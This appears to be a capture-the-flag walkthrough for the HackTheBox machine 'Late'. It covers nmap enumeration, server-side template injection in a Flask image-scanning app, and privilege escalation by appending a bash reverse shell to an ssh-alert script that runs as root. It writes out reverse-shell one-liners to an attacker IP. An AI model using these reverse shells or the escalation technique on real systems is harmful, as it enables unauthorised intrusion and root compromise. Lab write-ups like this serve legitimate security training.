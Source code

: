 # Late - HackTheBox WriteUp

<img src="../htb_assets/images/late/2022-08-01-10-32-37-image.png"/>

## 1. Enumeration

### Nmap initial scan

```
┌──(root💀kali)-[~/htb/machines/late]
└─# nmap -sC -sV -oN nmap_init 10.10.11.156
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-01 10:33 EDT
Nmap scan report for 10.10.11.156
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Enumeration

Open browser and goto http://10.10.11.156. While browsing a hyperlink can be found.

<img src="../htb_assets/images/late/2022-08-01-10-38-10-image.png"/>

This hyperlink redirects to images.late.htb. So add late.htb and images.late.htb to hosts file.

Moving to images.late.htb, there is an image scanner which reads text inside the image and convert it into text. And this is build using flask.

<img src="../htb_assets/images/late/2022-08-01-14-41-45-image.png"/>

It is vulnerable to SSTI template injection.



Create image containing an SSTI payload in text format.

<img src="../htb_assets/images/late/2022-08-02-02-20-37-image.png"/>

Upload and scan this image in the website.

This payload will be executed in the server and it output backs the result of "id" command which is executed.

<img src="../htb_assets/images/late/2022-08-02-02-23-30-image.png"/>



To make it simple, create an index.html file and add bash reverse shell one liner to it.

```
bash -i >& /dev/tcp/10.10.14.21/4242 0>&1
```

Turn on python server on port 80 to retrieve index.html and turn on netcat listener on port 4242 to get reverse shell.

Now upload image with the following SSTI payload.

<img src="../htb_assets/images/late/2022-08-02-02-45-48-image.png"/>

Payload got executed in the server and thus gets reverse shell.

```
svc_acc@late:~/app$ id
id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

svc_acc@late:~/app$ whoami
whoami
svc_acc

```

Stabilise the shell using python.

<img src="../htb_assets/images/late/2022-08-02-02-59-37-image.png"/>

An unusual script (ssh-alert.sh) is on /usr/bin/sbin/ directory. What this script does is, it sends a mail to the user who login using ssh. So this script executes with root privileges when a user login using ssh into the machine. 

<img src="../htb_assets/images/late/2022-08-02-03-39-39-image.png"/>



While checking the attribute of the script, user can append to this script.

<img src="../htb_assets/images/late/2022-08-02-03-40-49-image.png"/>

So, a reverse shell command can be appended to gain root access.

```
echo "bash -i >& /dev/tcp/10.10.14.21/9001 0>&1" >> ssh-alert.sh
```

This command to gain root shell will be appended to the script and whenever a user logs in through ssh, the listner will receive a shell with root privileges.



To perform this, copy contents of ssh private key of user svc_acc and set permissions to 600. Turn on netcat listener on port 9001. Login using id_rsa key which is created.

<img src="../htb_assets/images/late/2022-08-02-03-41-12-image.png"/>



<img src="../htb_assets/images/late/2022-08-02-03-41-52-image.png"/>

While svc_acc logged in using ssh, ssh-alert.sh script got executed which contains the reverse shell command. 

This gives a root shell through the netcat listener and the root flag can be found at root user's home directory.
